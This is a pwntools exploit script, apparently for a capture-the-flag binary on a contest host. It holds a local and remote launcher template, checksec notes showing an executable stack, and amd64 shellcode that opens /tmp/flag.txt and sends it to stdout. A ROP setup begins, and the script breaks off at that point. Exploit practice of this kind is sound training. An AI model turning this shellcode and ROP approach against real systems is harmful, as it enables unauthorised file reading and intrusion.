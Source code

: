 ```python
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'host5.metaproblems.com'
port = int(args.PORT or 7527)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX unknown - GNU_STACK missing
# PIE:        No PIE (0x400000)
# Stack:      Executable
# RWX:        Has RWX segments
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

shellcode = shellcraft.amd64.linux.openat(constants.AT_FDCWD, "/tmp/flag.txt", constants.O_RDONLY)
shellcode += shellcraft.amd64.linux.sendfile(constants.STDOUT_FILENO, 'rax', 0, 0x64)
shellcode = asm(shellcode)

rop = ROP(exe)

```